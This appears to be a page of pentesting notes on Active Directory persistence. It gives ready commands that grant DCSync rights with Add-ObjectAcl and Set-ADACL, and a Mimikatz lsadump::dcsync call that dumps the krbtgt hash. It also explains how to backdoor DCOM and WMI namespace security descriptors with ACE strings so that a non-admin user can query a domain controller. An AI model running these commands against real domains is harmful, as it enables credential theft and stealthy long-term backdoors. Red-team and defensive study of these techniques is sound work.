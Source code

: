 **Add DCSync rights**\
****Add-ObjectAcl -TargetDistinguisedName 'DC=subodmain,DC=domain,DC=local' -PrincipalSamAccountName yourusername -Rights DCSync -verbose

Using AD Module\
Set-ADACL -DistinguishedName 'DC=subodmain,DC=domain,DC=local' -principal yourusername -GUIDRight DCSync -verbose

In the GUI they are called Replicating Directory Changes, Replicating Direcotry Changes All, Replicating Directory Changes In Filtered Set => All three are needed for DCSync

DCSync in general very interesting because no commands need to be excuted on the DC itself after the initial attack

Execute DCSync\
Invoke-Mimikatz -command '"lsadump::dcsync /user:dom\krbtgt"'\
\=> Other accounts such as dom\Administrator etc. or any other user who have DCSync rights

## 🔑ACLs - Security Descriptors

### **Description**

* Modify Security Descriptors (Security information like Owner, primary group, DACL, SACL) of multiple remote access methods (securable objects) to allow access to non-admin users
* Good for backdooring
* You could allow non admin-users for Remote Management Protocols like WMI, PSRemoting etc. with this attack
* Persistence is long
* Security Descriptor Definition Language (SDDL) is used to describte a Seucurity Descriptor
* SDDL uses ACE Strings for DACL and SACL:\
  Ace format: ace\_type;ace\_flags;rights;object\_guid;inherit\_object\_guid;account\_sid\
  ACE Documentation: [https://learn.microsoft.com/en-us/windows/win32/secauthz/ace-strings](https://learn.microsoft.com/en-us/windows/win32/secauthz/ace-strings?redirectedfrom=MSDN)
* ACE for built-in administrors for WMI namespace example:\
  A;CI;CCDCLCSWRPWPRCWD;;;SID\_of\_object\_you\_would\_like\_to\_give\_acess\
  \=>rights are full control\
  ❓SID for built-in administrator is BA
* Goal: Add Backdoor privilege for your user to execute WMI queries on DC, without having admin privs\
  WMI Auth: First, you need privileges to connect to the DCOM Endpoint; Second, you need privilege to connect to the Namespace

### Requirements

* Local Administrative rights on a system
* On a DC you need DA rights&#x20;

### Tools

**In GUI:**&#x20;

1. On DC start application "Component Services"/Computers/My Computer/Properties/COM Security/Add your User
2. WMI Namespace Permissions: On DC start Computer Management/Services and Applications/WMI Control/Properties/Security/Root Security/Advanced permissions / Applies to this namespace and subnamspaces!
